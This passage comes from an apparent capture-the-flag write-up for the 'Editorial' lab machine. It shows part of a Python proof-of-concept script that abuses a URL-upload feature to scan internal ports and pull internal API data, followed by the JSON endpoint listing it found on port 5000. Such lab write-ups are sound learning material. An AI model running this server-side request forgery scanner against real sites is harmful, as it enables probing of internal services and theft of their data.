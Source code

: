 ```python
    }

    # Send the POST request with the files, form data, and headers
    response = requests.post(url, files=files, data=data, headers=headers)

    # Print the response from the server
    if response.text != '/static/images/unsplash_photo_1630734277837_ebe62757b6e0.jpeg':
        print("Found Something Interesting on endpoint: " + endpoint)
        print(response.text)
        if response.text.startswith("static/uploads/"):
            print("Getting the Interesting File")
            url = 'http://editorial.htb/' + response.text
            print(url)
            res_secret = requests.get(url)
            if res_secret.status_code == 200:
                filename = endpoint.split('/')
                filename = filename[len(filename)-1]
                with open(filename,'wb') as file:
                    file.write(res_secret.text.encode())
                return 1
    print("Nothing found on URL: " + url)
    return 0

if __name__ == '__main__':
    for i in range(3000, 10000):
        stop_flag = discoverPorts(str(i))
        if stop_flag:
            break
    endpoints = ["/api/latest/metadata/messages/promos",
                 "/api/latest/metadata/messages/coupons",
                 "/api/latest/metadata/messages/authors",
                 "/api/latest/metadata/messages/how_to_use_platform",
                 "/api/latest/metadata/changelog",
                 "/api/latest/metadata"]
    
    for endpoint in endpoints:
        getEndpointData(endpoint)
    
```

The script is a proof of concept and not refactored well but it gets the job done.

I found a hit on port `5000` and the output looks like the following:
```json
{
    "messages": [
        {
            "promotions": {
                "description": "Retrieve a list of all the promotions in our library.",
                "endpoint": "/api/latest/metadata/messages/promos",
                "methods": "GET"
            }
        },
        {
            "coupons": {
                "description": "Retrieve the list of coupons to use in our library.",
                "endpoint": "/api/latest/metadata/messages/coupons",
                "methods": "GET"
            }
        },
        {
            "new_authors": {
                "description": "Retrieve the welcome message sended to our new authors.",
                "endpoint": "/api/latest/metadata/messages/authors",
```